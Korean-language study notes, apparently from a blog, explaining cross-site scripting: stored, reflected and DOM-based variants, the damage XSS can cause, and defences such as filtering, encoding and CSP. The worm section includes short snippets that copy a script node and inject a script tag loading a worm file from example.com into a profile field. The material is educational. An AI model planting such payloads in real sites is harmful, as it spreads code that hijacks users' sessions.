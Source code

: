 ```yaml
---
title: Cross-Site Scripting Attack
tags: XSS Web-Hacking Cybersecurity
key: page-xss_attack
categories: [Cybersecurity, Web Security]
author: hyoeun
math: true
mathjax_autoNumber: true
---
```


## The Cross-Site Scripting Attack
* Attacker가 victim's browser에 code를 inject시키면 공격을 할 수 있는데 victim이 attacker의 page에 접속할때마다 그 공격이 이루어질 수 있는 것이다. 하지만 sandbox protection 때문에 그 공격이 이루어지지 않는다.
* 하지만 target page에 공격 코드를 inject시키면 공격을 성공시킬 수 있는데 이것을 cross-site scripting(xss) attack이라고 부르는 것이다.
* 기본적으로 어떤 웹사이트에서 온 코드는 그 웹사이트에 관해서는 다 신뢰하고 실행하게 된다. 따라서 이 공격을 통해 그 웹사이트와 연관된 쿠키를 수정하거나 또 다른 리퀘스트를 날리거나 뭐든지 할 수 있는것이다. 특히 active session을 가지고 있으면 어떠한 것도 그 웹사이트 안에서는 다 허용한다.
* 따라서 공격자가 target website에 코드를 심어서 공격을 하는 것이다.
<br><br>

## Persistent(Stored) XSS Attack
* 악성 스크립트가 포함된 User input이 타겟 서버에 페이로드로써 저장되어 그 페이로드가 포함된 애플리케이션 부분에 액세스 하는 모든 사람이 악성 스크립트를 트리거 하게 되는 공격입니다.
* 예를들어 공격자가 자신의 프로필 수정란에 script code를 기입하고 그것을 db에 저장시킨다음 다른 사람들이 그 프로필을 보게 되면 injecte된 script code를 보게 되면서 그것을 실행하게 된다. 이것은 서버측에서 data로 저장할때 HTML markup을 제대로 sanitized하지 않았기 때문에 생기는 허점이다.
* 브라우저는 이러한 코드들을 서버에서 만든건지 다른 사람이 만든건지 구별할 수 없기 때문에 그 코드를 user의 privilege로 실행시켜버린다.
<br><br>

## Non-persistent(Reflected) XSS Attack
* 웹 애플리케이션이 request에 포함된 user input을 안전하게 sanitize를 하지 않고 악성 스크립트가 있는 채로 response를 해 악성 스크립트가 클라이언트에서 실행되는 공격기법이다.
* 주로 사용자에게 악성 URL을 배포하여 사용자가 그것을 클릭하도록 유도하여 클릭한 사용자의 브라우저에서 악성 스크립트가 실행되도록 한다.
<br><br>

## Dom-based XSS
* 공격자가 DOM에 페이로드를 주입해서 피해자의 브라우저가 HTML 페이지를 로드 할 때마다 악성 스크립트가 DOM 생성의 일부로 실행되면서 공격하는 기법이다. 페이지 자체는 변하지 않으나, 페이지에 포함되어 있는 브라우저측 코드가 DOM 환경에서 악성코드로 실행된다.
* 앞선 타입과는 다르게 서버와 관계없이 브라우저에서 발생하는 것이 차이점이다.
<br><br>

## What damage can XSS cause?
* Web defacing: JS code는 DOM APIs를 쓸 수 있기 때문에 hosting page의 DOM을 생산 혹은 제거, 변경 같은 것을 가능하게 하여 fake page를 만들수도 있고 형태 자체를 바꿔버릴 수 있다.
* Spoofing requests: JS code는 HTTP request도 가능하기 때문에 우리가 지금까지 얘기한것들의 예들로 fake user로 접근하여 서버에 fake user신분으로 의도치 않은 일들을 할 수 있다.
* Stealing information: Victim's private data(session cookie, 개인 정보 등)를 공격자에게로 쉽게 보낼 수 있다.
<br><br>

## XSS Attacks in Action
* 공격에 앞서 우선 target website가 어떤식으로 작동하는지를 우리가 코드를 심고자 하는 행위를 실행했을 때 HTTP header를 분석하면서 url 같은 것을 확인하고 이용한다.
* 공격할때는 스펠링 하나하나 잘 확인해야하고 target site마다 가지는 특성에 따라 공격 코드가 다 달라지기 때문에 정형화한 방식을 알려주기는 힘들다.
* 분석한 액션에 대한 url 분석만 잘 마치면 그 url의 패턴들에 따라 내용만 잘 넣어서 Ajax로 open(), setRequestHeader(), send()와 같은 함수들을 잘만 사용하면 공격에 성공할 수 있을 것이다.
<br><br>

## Achieving Self-Propagation
* 진짜 worm처럼 자가번식하면서 malware code를 퍼트리려면 DOM APIs를 통한 방식과 src attribute를 이용하여 link로 퍼트리는 방식이 있다.
### DOM Approach
* 웹 페이지가 만들어질때에는 브라우저측에서 Document Object Model(DOM)을 생성한다.
* DOM은 각 페이지의 내용들을 DOM nodes형태로 tree를 구성한다.
* 이 방식으로 공격할때에는 우리는 JS code를 DOM API를 통해 node 이름(id)을 부여하고 document.getElementByID()를 통해 그 노드를 불러오기만 하면 공격할 수 있다. 별거 없고 그냥 API 쓰면 DOM 접근 방식인거다. 코드를 다시 쓰는게 아니라 elegance하게 DOM API로 불러서 그 전체 코드를 content에 실어서 보내면 된다.
    ```javascript
    <script id="worm">

    // Use DOM API to get a copy of the content in a DOM node.
    var strCode = document.getElementById("worm").innerHTML;

    // Displays the tag content
    alert(strCode);

    </script>
    ```
### Link Approach
* 이거는 js파일을 그대로 불러서 src에다가 넣는것이다.
    ```javascript
    var warmCode = encodeURIComponent(
        "<script type=\"text/javascript\" "
        + "src=\"http://example.com/xss_worm.js\">";
        + "</" + "script>");

    // Set the content for the description field(이거는 특정 웹사이트에서 적용하는 방식을 이용한 것일뿐.)
    var desc="&description=SAMY is MY HERO" + wormCode;

    //(the rest of the code is the same as that in the previous approach)
    ..
    ```
* 위의 방식으로 js 파일(worm)을 넣기만 하면 된다.
* 위에서 </ script> 부분을 따로 스트링 처리 하는 이유는 만약 한 곳에 처리해버리면 firefox같은 브라우저는 하나로 인식해서 제대로 코드 전달이 안되기 때문이다. 브라우저 파싱 방식에 따라 달라질 것이다.
<br><br>

## Preventing XSS attacks
* XSS가 생기는 이유는 data와 code를 분리하지 않아서이다.
* 하지만 HTML markup을 지원하는 입장에서 분리하는게 결코 쉬운일은 아니다.
* user input으로 부터 코드를 없애거나 가능하면 그것을 ineffective하게 바꾸는 2가지의 방식이 있다. 보통 아래 2가지 방법을 섞어서 XSS를 예방한다.
* IPS, IDS, 방화벽으로도 방지할 수 없기 때문에 단순히 문자를 필터링 하는 것과 같은 방법만이 존재한다.

### Filter Approach
* user input으로 부터 코드를 지운다는 것인데 이게 쉽지 않다.
* script 태그 외에 여러가지 방법으로 javascript를 작동시킬 수 있는 방법들이 존재한다.
* 이건 만드는게 쉽지 않기 때문에 jsoup와 같은 오픈소스 코드를 사용해도 좋다.

### Encoding Approach
* Code들을 브라우저가 볼 수 있는 방식(\&\lt; 같이 < 대신에 보여지는 방식)으로 바꾸는 것이다.
* 브라우저가 representations하는 방식이 된다는 것은 코드는 실행되지 않는다는 것을 의미한다.

### 생각해볼 문제
* 위 방식들을 사용할 경우 white list가 나을것인가 black list가 나을 것인가?
* 경우에 따라 각각 다르겠지만 white list가 일반적으로 작성하기 쉽고(알파벳과 숫자 혹은 특수문자 몇개 정도만 허용하게 하면 된다.) 사용자가 예상 범위 안에서 사용할 수 있게 만들 수 있어서 좀 더 나을 수 있다.

### Content Security Policy(CSP) 사용
* 스크립트 실행에 대한 정책을 설정해 예방하는 방법. 어떤 웹 리소스만 허용할지 정의.
* 출처가 자기 서버인 스크립트만 실행 될 수 있도록 한다.  

## Refrence
* [COMPUTER SECURITY: A Hands-on Approach by Wenliang Du](https://www.amazon.com/Computer-Security-Hands-Approach-Wenliang/dp/154836794X)
* [설명이 풍부한 자료](https://excess-xss.com/)